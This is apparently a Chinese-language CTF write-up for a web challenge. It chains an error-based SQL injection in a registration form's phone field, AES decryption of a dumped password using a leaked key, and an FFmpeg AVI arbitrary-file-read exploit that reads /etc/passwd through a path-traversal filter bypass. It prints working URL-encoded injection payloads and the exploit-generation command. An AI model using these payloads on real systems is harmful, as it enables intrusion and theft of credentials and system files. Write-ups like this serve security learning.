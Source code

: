 ## 方舟计划 ##

本来觉得非常有意思的一题，可能是除了非预期，导致3个队伍直接做出来了，然后主办方偷偷改题了，搞得人很难受，我们先一步一步来。

首先注册的电话号码地方有注入，但是有过滤

语句大概是
insert into users (username,password,phone) values ('123' , '123', 'test')

然后可以显错，所以可以注
```
username=test&phone=1%27and%20extractvalue%281%2C%20concat%280x5c%2C%28%20select%20%2a%20%2f%2a%2150000from%2a%2f%28select%20name%20%2f%2a%2150000from%2a%2f%20note.user%20where%20id%20%3D1%29x%29%29%29%29%23&password=1&repassword=1

用户名
fangzh0u

username=test&phone=1%27and%20extractvalue%281%2C%20concat%280x5c%2C%28%20select%20%2a%20%2f%2a%2150000from%2a%2f%28select%20password%20%2f%2a%2150000from%2a%2f%20note.user%20where%20name%3D%27ddog%27%29x%29%29%29%29%23&password=1&repassword=1

密码同理\L8qyd7Vk/BIUVSeBfGshSQ==
```

注出来的密码是乱码，很难受，所以看看表里还有没有别的东西。

发现一个config表
config里id，secrectkey
取到secrectkey  BjDjgKE8CEk5hA9z9FDH7otvGntinomp
```
key = "BjDjgKE8CEk5hA9z9FDH7otvGntinomp"
a = AES.new(base64.b64decode(key))
a.decrypt(base64.b64decode(c))
'tencent123\x00\x00\x00\x00\x00\x00'
```
这下账号和密码都有了，那么就登陆上去看看，是一个上传avi的地方，过滤比较严格，传上去的视频会转md4,当时第一反应就是那个ffmpeg任意文件读取的漏洞。

翻了一些文章就赛宁这个最完整，seebug也有一篇360的分析，也可以看看。

[http://blog.cyberpeace.cn/FFmpeg/](http://blog.cyberpeace.cn/FFmpeg/)

```
exp：
https://github.com/neex/ffmpeg-avi-m3u-xbin
```

开始读/etc/passwd被过滤了，稍微研究了一下，好像是只过滤了这个，我们甚至还可以读etc/hosts，那么我们通过跨目录来绕过判断。

```
python3 gen_xbin_avi.py file:///etc/init.d/../passwd 3.avi   
```

![image.png-275.5kB][2]
找到了当前用户，猜测这里有flag

开始读这个目录没东西，突然有flag了


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png